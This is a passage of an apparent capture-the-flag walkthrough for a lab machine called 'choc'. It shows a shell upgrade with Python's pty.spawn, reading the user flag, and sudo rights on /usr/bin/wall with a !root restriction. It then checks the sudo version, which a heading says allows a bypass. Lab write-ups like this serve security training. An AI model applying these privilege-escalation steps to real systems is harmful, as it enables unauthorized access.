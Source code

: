 ```bash
                  spCPY//////YPSps
                       ccaacs

>>> import pty
>>> pty.spawn("/bin/bash")
sarah@choc:/home/torki/secret_garden$ whoami
sarah
```

### flag - user

```bash
sarah@choc:~$ cat user.txt
commenquaded
```

### 环境探测

```plaintext title="sudo -l"
User sarah may run the following commands on choc:
    (ALL, !root) NOPASSWD: /usr/bin/wall
```

```plaintext title="/home/sarah/.note.txt"
fuckmeplease
```

```plaintext title="/home/sarah/quotes.txt"
 “You must have chaos within you to give birth to a dancing star.”

 “It is not a lack of love, but a lack of friendship that makes unhappy marriages.”

 “The multiplication of our kind borders on the obscene; the duty to love them, on the preposterous.”

“We do not die because we have to die; we die because one day, and not so long ago, our consciousness was forced to deem it necessary.“

“Luke, I am your father"
```

### sudo 版本可导致绕过

```bash
sarah@choc:/home/torki/.ssh$ sudo --version
Sudo version 1.8.23
Sudoers policy plugin version 1.8.23
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.23
sarah@choc:/home/torki/.ssh$ sudo -l
User sarah may run the following commands on choc:
    (ALL, !root) NOPASSWD: /usr/bin/wall
```
